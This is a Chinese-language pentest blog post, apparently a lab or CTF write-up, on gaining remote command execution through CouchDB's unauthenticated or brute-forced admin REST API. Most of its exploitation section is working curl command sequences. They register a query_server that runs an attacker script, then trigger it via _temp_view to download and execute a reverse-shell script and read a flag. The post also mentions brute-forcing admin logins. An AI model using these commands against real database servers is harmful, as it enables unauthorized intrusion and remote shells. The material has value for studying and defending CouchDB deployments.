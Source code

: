 ```yaml
---
layout:     post
title:      "Couchdb命令执行"
subtitle:   "一点点记录"
date:       2016-09-11
author:     "Urahara"
header-mask: 0.3
categories: [pentest, database security, Remote Command Execution]

---
```



## 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 可以安装在大部分 POSIX 系统上，包括 Linux和 Mac OS X。

## 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-nmap.png)

>执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破/_utils/，也可以通过metasploit中的auxiliary/scanner/Couchdb/Couchdb/Couchdb/Couchdb_login模块直接进行爆破

CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-admin.png)

## 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-cookie.png)

>远程命令执行示例
1. 新增query_server配置，写入要执行的命令；
2. 新建一个临时库和临时表，插入一条记录；
3. 调用query_server处理数据

```basic
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/static/img/posts/Couchdb/Couchdb-RCE-over.png)
> 同样你也可以不用登录获取Cookie，直接在curl请求中带入账号密码也是可以的，类似于这样，执行效果是一样的，这种方法可能更方便点吧

```basic
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/_config/query_servers/cmd' -d '"curl http://192.168.199.140/flag"'
"curl http://192.168.199.140/flag"
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa'
{"ok":true}
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa/haha' -d '{"_id":"770895a97726d5ca6d70a22173005c7a"}'{"ok":true,"id":"haha","rev":"1-967a00dff5e02add41819138abb3284d"}
root@Urahara:~# curl -X POST 'admin:1qaz2wsx@192.168.199.165:5984/wa/_temp_view?limit=14' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'
```


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/Couchdb/Couchdb-unauthorized-access-vulnerability-system-command/)